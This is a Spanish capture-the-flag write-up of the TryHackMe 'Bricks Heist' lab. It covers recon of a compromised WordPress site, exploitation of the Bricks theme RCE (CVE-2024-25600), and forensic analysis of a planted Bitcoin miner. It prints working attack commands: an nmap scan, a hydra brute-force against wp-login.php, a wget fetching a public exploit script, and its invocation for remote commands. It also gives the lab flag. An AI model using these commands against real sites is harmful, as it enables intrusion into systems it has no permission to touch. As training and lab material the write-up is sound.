 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/bricks-heist.webp"
---
```


---


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5e19dbac-6f69-4b8e-8f73-8ef638bf2a2c/8415f495-a0a4-4a8d-b258-ce28be57dfa6/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB4666TCRUJRC%2F20250511%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250511T034514Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEAsaCXVzLXdlc3QtMiJGMEQCIBBFful9ZtCg1w5BIy8U7fdpsiSnGWpZS8k4iUW8rXKsAiAyQ8oB56aJkwOUIsy2u8IjaeelTme2LjXOTTzrixAFDiqIBAi0%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMBuXNYd5ARAV8f66TKtwDyduNTi36c2lp%2Fgiow8sUbYtjZjqzPsR299%2Brx4RDw9%2BH9TyDrVEooWolvAL3sZyYhBKoa83bxqkSWrwwXkxY89LyNuQjWF3aItxsX6Bh8zUNlZ8jQY2pMXz6F1lmOC8x7V2XmSqKT2qJA81%2BqG6TMruV0nG%2F%2Bv4dZNJD59oUU%2F5%2FQYomW2tP8Hb1ZBvjHz6Zc6WS5Xvp1NKbiFm1n3%2FlIFRs3ov%2FotDm88yQ9Xvp7eWA7fHYB8rNZjCwro7byHl54cR3dwmyq1qm8OMoari1vXbAGqYlEU35x%2BvyDs8EbtlH2f9XVe5d%2BWv0bU5hTXUFc%2FUWSRV9eGBbOOqoYRglS61EqvzdeFTSV%2FbwYPegRNRG5IK0%2BCZb3xDm8dfFTkz3ym9UTI7oHDENSpYsU1F94EBck7YV%2Bw5UI6FMuiDBriElFmr2grqZj4HgdBBlrtznUZxxCUKIDqlTuxyp6Vbc5nvT9bIxYKSch7YjTyjFNcrSY261zujnT048fx4nn6wFTiGEX%2B1YiMcXa37c8AJatFKM0BnV9VNFaBR2eLf%2FTmmYOn6NcwTDHrRXcOhkdK0T9W80t2RCkbaImfVsXyO8MHgpvlvM9FNZ7G9Nap%2BWYmVjkQQCsavF%2Fdt6AUsw8JyAwQY6pgHhKwvZXw6NfUVNbBaBkVbJg6WuSnCgdTM2ehytJzoS9uo2pt%2Fs6b8Ue0pJH6lcfacA1k9Gxb6OPAylS5jfjmCkrrT4OEvypcaO5Ip11TOKSxqnhUhACWLTOqNdR0wgZEk6GKa2MxVlfcopYwnBzmjBNE3uKk%2FFVTKct5NpT8hEgOfn7jASj1gSRp%2B4M6SlVjvQfykBEz3kFT4Cd3RpMsH4XDr7fLlg&X-Amz-Signature=74bff9a88d5b09e6e5f049e89ee13deb31364ade97e2c4744744af7103a8e8c3&X-Amz-SignedHeaders=host&x-id=GetObject)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


---


## 🐚 Post-explotación


Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
CopyEdit
THM{fl46_650c844110baced87e1606453b93f22a}
```


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
bash
CopyEdit
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
css
CopyEdit
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
makefile
CopyEdit
ID: WW1NeGNY...
```


---


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (dos veces), obtenemos:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


---


## 🕵️ Asociación con grupo de amenazas


Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.


---


## ✅ Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

**Una práctica redonda** para cualquier profesional de ciberseguridad ofensiva o defensiva.

